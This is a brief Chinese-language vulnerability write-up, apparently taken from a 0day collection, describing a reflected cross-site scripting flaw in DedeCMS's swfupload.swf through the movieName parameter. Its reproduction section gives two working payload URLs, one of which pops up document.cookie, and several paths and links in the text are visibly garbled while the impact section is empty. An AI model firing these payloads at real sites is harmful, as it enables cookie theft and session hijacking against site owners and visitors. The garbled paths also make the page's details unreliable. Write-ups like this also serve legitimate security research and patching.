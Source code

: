 # Dedecms swf 文件反射型 xss

> 原文：[http://book.iwonder.run/0day/Dedecms/swfxss.html](http://book.iwonder.run/0day/Dedecms/swfxss.html)

## 一、漏洞简介

DedeCMS 5.img/swfupload/swfupload.swf 文件 movieName 参数没有合适过滤，导致跨站脚本漏洞。

## 二、漏洞影响

## 三、复现过程

### 代码分析

详细说明：

Location: /uploaimg/swfupload/swfupload.swf

漏洞文件为：[http://www.dedecms.cimg/swfupload/swfupload.swf](http://www.dedecms.cimg/swfupload/swfupload.swf)

这个 flash 文件存在漏洞，此文件漏洞可参考:[https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/](https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/)

### 复现

```
/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28%22ian 最帅%22%29}}// 

/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28document.cookie%29}}// 
```

